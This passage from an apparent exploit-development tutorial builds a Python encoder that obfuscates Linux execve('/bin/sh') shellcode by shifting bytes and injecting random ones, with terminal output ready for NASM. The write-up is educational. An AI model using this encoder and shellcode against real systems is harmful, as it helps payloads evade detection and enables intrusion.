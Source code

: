 ```terminal_session
root@kali:~# python3 encoder.py
\xff\x62\xc0\xff\xa0\xff\xd0\xff\x5e\xff\x5e\xff\xe6\xff\xd0\xff\xd0\xff\x5e\xff\xc4\xff\xd2\xff\xdc\x89\xe3\xff\xa0\x89\xe2\xff\xa6\x89\xe1\xb0\xff\x16\xcd\x80
```

Looks like we ended up with 15 of the bytes shifted. That's pretty cool!

### Step 2 -- Random Byte Injection

Now we import the `random` module and use it to inject a random byte during each iteration of the loop. In other words, our encoder will now shift bytes lower than `128`, prepend those bytes with `0xff`, and then finally append that byte with a random byte. So in practice we can have the following pseudo bytes sequences:
+ Unshifted + Random
+ 0xff + Shifted + Random

Lastly, we'll want to print to terminal our shellcode formatted in a way that we can use it in our assembly, annotated here as the 'For NASM:' output.

```python
import random

byteObject = (b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")
encode = ""


for x in bytearray(byteObject):
	if x < 128:
		x = x << 1
		encode += '\\xff'

	encode += "\\x"
	encode += '%02x'% x
	sneaky = random.randint(2,253)
	encode += '\\x%02x' % sneaky

		

db = str(encode).replace("\\x", ",0x")
db = db[1:]
print('For NASM: ' + db)
```

Running this gives us the following output:

```terminal_session
root@kali:~# python3 encoder.py
For NASM: 0xff,0x62,0x0f,0xc0,0xde,0xff,0xa0,0x5a,0xff,0xd0,0x1b,0xff,0x5e,0x09,0xff,0x5e,0xed,0xff,0xe6,0x09,0xff,0xd0,0x93,0xff,0xd0,0x30,0xff,0x5e,0xc8,0xff,0xc4,0x26,0xff,0xd2,0x3e,0xff,0xdc,0xa3,0x89,0x14,0xe3,0x9a,0xff,0xa0,0x47,0x89,0xe0,0xe2,0xa2,0xff,0xa6,0xa5,0x89,0x8b,0xe1,0x9e,0xb0,0x67,0xff,0x16,0x8c,0xcd,0xb2,0x80,0x30
```
